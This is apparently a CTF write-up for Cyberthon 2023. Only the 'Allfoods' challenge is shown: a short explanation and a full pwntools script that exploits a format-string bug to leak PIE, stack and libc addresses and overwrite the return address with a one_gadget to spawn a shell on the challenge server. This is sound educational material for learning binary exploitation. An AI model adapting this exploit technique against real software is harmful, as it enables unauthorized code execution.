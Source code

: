 ```yaml
---
title: Cyberthon 2023 Writeups
date: 11 May 2023
---
```


- <a href="#allfoods">Allfoods</a>
- <a href="#flagmin">Flagmin</a>
- <a href="#passgen">Passgen</a>
- <a href="#tune-of-apocalypse">Tune of Apocalypse</a>
- <a href="#wordpocalypse">Wordpocalypse</a>

<h1 id="allfoods">Allfoods</h1>

This challenge is a simple format string read and write. In this case, full
RELRO is enabled so we can't overwrite the GOT. We can leak a stack address and
use it to calculate the address of RIP.

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./allfoods_patched")
libc = ELF("./libc.so.6")

context.binary = exe

def conn():
    if args.LOCAL:
        p = process([exe.path])
        if args.GDB:
            gdb.attach(p)
            pause()
    else:
        p = remote("chals.f.cyberthon23.ctf.sg", 43030)

    return p


def main():
    p = conn()

    # good luck pwning :)
    # 47 is pie, 45 is stack leak
    p.sendline(b"%47$p,%45$p")
    p.recvuntil(b"Here's your: ")
    pie = int(p.recvuntil(b",", drop=True), 16) - exe.sym.main
    print(hex(pie))
    exe.address = pie

    leak = int(p.recvline().strip(), 16)
    rip = leak - 0xf0

    p.sendline(b"%9$saaaa" + p64(exe.got.printf))
    p.recvuntil(b"Here's your: ")
    libc_base = u64(p.recvuntil(b"aaaa", drop=True).ljust(8, b'\0')) - libc.sym.printf
    print(hex(libc_base))
    libc.address = libc_base

    payload = fmtstr_payload(8, { rip: libc_base + 0xe3b01 })
    p.sendline(payload)

    p.interactive()
```